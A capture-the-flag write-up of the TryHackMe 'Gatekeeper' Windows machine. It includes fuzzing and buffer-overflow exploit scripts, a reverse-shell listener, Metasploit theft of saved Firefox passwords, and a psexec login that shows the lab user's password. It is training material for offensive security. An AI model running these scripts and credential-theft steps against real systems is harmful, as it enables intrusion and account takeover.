








# Gatekeeper

## Description

Can you get past the gate and through the fire?
* Difficulty: *Medium*
* Category: Buffer Overflow

## Challenge

As always, we are given an IP address. Let's start by scanning the target machine with Nmap.

```bash
┌──(DrunkenHacker㉿kali)-[~/MyCourses/TryHackMe]
└─$ sudo nmap -sS -v -T4 -p- <IP_ADDRESS>

[REDACTED]

Nmap scan report for <IP_ADDRESS>
Host is up (0.59s latency).
Not shown: 65524 closed tcp ports (reset)
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
31337/tcp open  Elite
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49160/tcp open  unknown
49161/tcp open  unknown
49162/tcp open  unknown

[REDACTED]
```

We can see a lot of open ports. Let's scan these ports for services.

```bash
┌──(DrunkenHacker㉿kali)-[~/MyCourses/TryHackMe]
└─$ sudo nmap -A -p135,139,445,3389,31337,49152,49153,49154,49160,49161,49162 <IP_ADDRESS>

Nmap scan report for <IP_ADDRESS>
Host is up (0.59s latency).

PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  tcpwrapped
31337/tcp open  Elite?
[REDACTED]
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  msrpc        Microsoft Windows RPC
49161/tcp open  msrpc        Microsoft Windows RPC
49162/tcp open  msrpc        Microsoft Windows RPC

[REDACTED]

Host script results:
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: gatekeeper
|   NetBIOS computer name: GATEKEEPER\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-01-15T17:02:08-05:00
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: GATEKEEPER, NetBIOS user: <unknown>, NetBIOS MAC: 02:1e:4c:48:4a:c7 (unknown)
| smb2-time: 
|   date: 2025-01-15T22:02:07
|_  start_date: 2025-01-15T21:39:34
|_clock-skew: mean: 1h34m12s, deviation: 2h53m14s, median: -5m48s

[REDACTED]
```

We can see that the machine is running SMB on port 445. Using `smbclient`, we can list the shares on the target machine.

```bash
┌──(DrunkenHacker㉿kali)-[~/MyCourses/TryHackMe/gatekeeper]
└─$ smbclient -L <IP_ADDRESS>
Password for [WORKGROUP\DrunkenHacker]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        Users           Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to <IP_ADDRESS> failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

We can see that there are 4 shares available. Let's try to access the `Users` share.

```bash
┌──(DrunkenHacker㉿kali)-[~/MyCourses/TryHackMe]
└─$ smbclient \\\\10.10.249.42\\Users
Password for [WORKGROUP\DrunkenHacker]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DR        0  Fri May 15 03:57:08 2020
  ..                                 DR        0  Fri May 15 03:57:08 2020
  Default                           DHR        0  Tue Jul 14 09:07:31 2009
  desktop.ini                       AHS      174  Tue Jul 14 06:54:24 2009
  Share                               D        0  Fri May 15 03:58:07 2020

                7863807 blocks of size 4096. 3869641 blocks available
smb: \> dir Share
  Share                               D        0  Fri May 15 03:58:07 2020

                7863807 blocks of size 4096. 3869641 blocks available
smb: \> cd Share
smb: \Share\> dir
  .                                   D        0  Fri May 15 03:58:07 2020
  ..                                  D        0  Fri May 15 03:58:07 2020
  gatekeeper.exe                      A    13312  Mon Apr 20 07:27:17 2020

                7863807 blocks of size 4096. 3868408 blocks available
```

We can see that there is an executable file named `gatekeeper.exe`. We download this file to our local machine. Notice that from the Nmap scan, there is a weird port `31337` open. Let's try to connect to this port.

```bash
┌──(DrunkenHacker㉿kali)-[~/MyCourses/TryHackMe/gatekeeper]
└─$ nc <IP_ADDRESS> 31337
bruh
Hello bruh!!!
yo
Hello yo!!!
```

This seems to be a service that echoing back our input saying hello. Let's try running the `gatekeeper.exe` file in a local Windows machine using Immunity Debugger.



We can connect to the service using the `nc` command from our Kali machine to port `31337` of the Windows machine.

```bash
┌──(DrunkenHacker㉿kali)-[~/MyCourses/TryHackMe/gatekeeper]
└─$ nc <LOCAL_IP> 31337
bruh
Hello bruh!!!
yo
Hello yo!!!
^C
```

We can now confirm that the `gatekeeper.exe` file is the service running on port `31337`. Since it takes our input and echoes it back, we can test to see if it is vulnerable to buffer overflow by sending a long string.



As we send a bunch of `A`s, the program crashes. This means that the program is vulnerable to buffer overflow. We can create a Python script to fuzz the program to confirm the exact buffer size.

```python
#!/usr/bin/env python3

import socket, time, sys

ip = "<LOCAL_ADDRESS>"
port = 31337
timeout = 5

name = "A" * 100

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.settimeout(timeout)
s.connect((ip, port))

while True:
    try:
        print("Sending {} bytes...".format(len(name)))
        s.send(bytes(name + "\r\n", "latin-1"))
        s.recv(1024)
        name += "A" * 100
        time.sleep(5)
    except:
        print("Fuzzing crashed at {} bytes.".format(len(name)))
        sys.exit(0)
```

As we execute the script, we can see that the program crashes at 200 bytes.

```bash
┌──(DrunkenHacker㉿kali)-[~/MyCourses/TryHackMe/gatekeeper]
└─$ python3 fuzzer.py
Sending 100 bytes...
Sending 200 bytes...
Fuzzing crashed at 200 bytes.
```

We can now create a pattern to find the offset.



Our script to find the offset should look like this:

```python
#!/usr/bin/env python3

import socket, time, sys

ip = "<IP_ADDRESS>"
port = 31337
timeout = 5

offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = "<PATTERN>"
postfix = ""

buffer = overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.settimeout(timeout)
s.connect((ip, port))

try:
    print("Sending evil buffer...")
    s.send(bytes(buffer + "\r\n", "latin-1"))
    print("Done!")
except:
    print("Could not connect.")
    sys.exit(0)
```

Now we can run the script to find the offset.



We can see that as the program crashes, the EIP register is filled with `39654138`, which translates to `9eA8` in ASCII and with a little-endian format, it becomes `8Ae9`. We can query the exact offset from here.



Our offset is 146. Time to find bad characters. After some trial and error, we find all the bad characters.



Now we can find a jump point.



We found 2 jump points. We will use the first one in little-endian format. Now we need to create a payload to get a reverse shell.



Now we prepend some padding of NOPs to our payload and our exploit script is ready. It should look something like this:

```python
#!/usr/bin/env python3

import socket, time, sys

ip = "<IP_ADDRESS>"
port = 31337
timeout = 5

offset = 146
overflow = "A" * offset
retn = "<JUMP_POINT>"
padding = "\x90" * 16
buf = ""
<REVERSE_SHELL_PAYLOAD>
payload = buf
postfix = "\r\n"

buffer = overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.settimeout(timeout)
s.connect((ip, port))

try:
    print("Sending evil buffer...")
    s.send(bytes(buffer, "latin-1"))
    print("Done!")
except:
    print("Could not connect.")
    sys.exit(0)
```

Now we launch a listener on our Kali machine and run the exploit script.

```bash
┌──(DrunkenHacker㉿kali)-[~/MyCourses/TryHackMe]
└─$ nc -lvnp 6666
listening on [any] 6666 ...
connect to [<LOCAL_ADDRESS>] from (UNKNOWN) [<TEST_ADDRESS>] 49645
Microsoft Windows [version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation. Tous droits r�serv�s.

C:\Users\DrunkenHacker\Desktop\Gatekeeper>
```

Now that we successfully tested the exploit on our local machine, we now apply the exploit on the target machine. We will be using Metasploit handler to catch the reverse shell.

```meterpreter
meterpreter > dir
Listing: C:\Users\natbat\Desktop
================================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100666/rw-rw-rw-  1197   fil   2020-04-21 23:00:33 +0200  Firefox.lnk
100666/rw-rw-rw-  282    fil   2020-04-21 22:57:09 +0200  desktop.ini
100777/rwxrwxrwx  13312  fil   2020-04-20 07:27:17 +0200  gatekeeper.exe
100777/rwxrwxrwx  135    fil   2020-04-22 03:53:23 +0200  gatekeeperstart.bat
100666/rw-rw-rw-  140    fil   2020-05-15 03:43:14 +0200  user.txt.txt

meterpreter > cat user.txt.txt
[REDACTED]
```

We got the first flag. After looking around for the second flag, we found that there is another user named `mayor` that can be quite interesting to look at. However, the user's folder is not accessible. As we look around, we retrieved some credentials from Firefox.

```msfconsole
msf6 exploit(multi/handler) > use multi/gather/firefox_creds
msf6 post(multi/gather/firefox_creds) > set session 3
session => 3
msf6 post(multi/gather/firefox_creds) > run
[-] Error loading USER S-1-5-21-663372427-3699997616-3390412905-1000: Hive could not be loaded, are you Admin?
[*] Checking for Firefox profile in: C:\Users\natbat\AppData\Roaming\Mozilla\

[*] Profile: C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles\ljfn812a.default-release
[+] Downloaded cert9.db: /home/drunkenhacker/.msf4/loot/20250225172410_default_10.10.122.209_ff.ljfn812a.cert_800587.bin
[+] Downloaded cookies.sqlite: /home/drunkenhacker/.msf4/loot/20250225172415_default_10.10.122.209_ff.ljfn812a.cook_847911.bin
[+] Downloaded key4.db: /home/drunkenhacker/.msf4/loot/20250225172419_default_10.10.122.209_ff.ljfn812a.key4_930466.bin
[+] Downloaded logins.json: /home/drunkenhacker/.msf4/loot/20250225172422_default_10.10.122.209_ff.ljfn812a.logi_687142.bin

[*] Profile: C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles\rajfzh3y.default

[*] Post module execution completed
```

The files are downloaded to the `loot` directory in our local machine. We change the name back to the original name and use `firefox_decrypt` to decrypt the credentials.

```bash
┌──(DrunkenHacker㉿kali)-[~/MyCourses/TryHackMe/gatekeeper/firefox_creds]
└─$ gh repo clone unode/firefox_decrypt
Cloning into 'firefox_decrypt'...
remote: Enumerating objects: 1382, done.
remote: Counting objects: 100% (292/292), done.
remote: Compressing objects: 100% (38/38), done.
remote: Total 1382 (delta 273), reused 254 (delta 254), pack-reused 1090 (from 2)
Receiving objects: 100% (1382/1382), 482.80 KiB | 1.25 MiB/s, done.
Resolving deltas: 100% (870/870), done.

┌──(DrunkenHacker㉿kali)-[~/MyCourses/TryHackMe/gatekeeper/firefox_creds]
└─$ python3 firefox_decrypt/firefox_decrypt.py ./
2025-02-25 17:43:47,447 - WARNING - profile.ini not found in ./
2025-02-25 17:43:47,447 - WARNING - Continuing and assuming './' is a profile location

Website:   https://creds.com
Username: 'mayor'
Password: [REDACTED]
```

We can try to use these credentials to create a shell with PsExec.

```bash
┌──(DrunkenHacker㉿kali)-[~/MyCourses/TryHackMe/gatekeeper/firefox_creds]
└─$ python3 /usr/share/doc/python3-impacket/examples/psexec.py gatekeeper/mayor:8CL7O1N78MdrCIsV@10.10.122.209 cmd.exe
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 10.10.122.209.....
[*] Found writable share ADMIN$
[*] Uploading file afsxALnp.exe
[*] Opening SVCManager on 10.10.122.209.....
[*] Creating service PwkB on 10.10.122.209.....
[*] Starting service PwkB.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

We got the system shell. Now we can look for the second flag. Just like the first flag, the second flag is in the `mayor` user's desktop.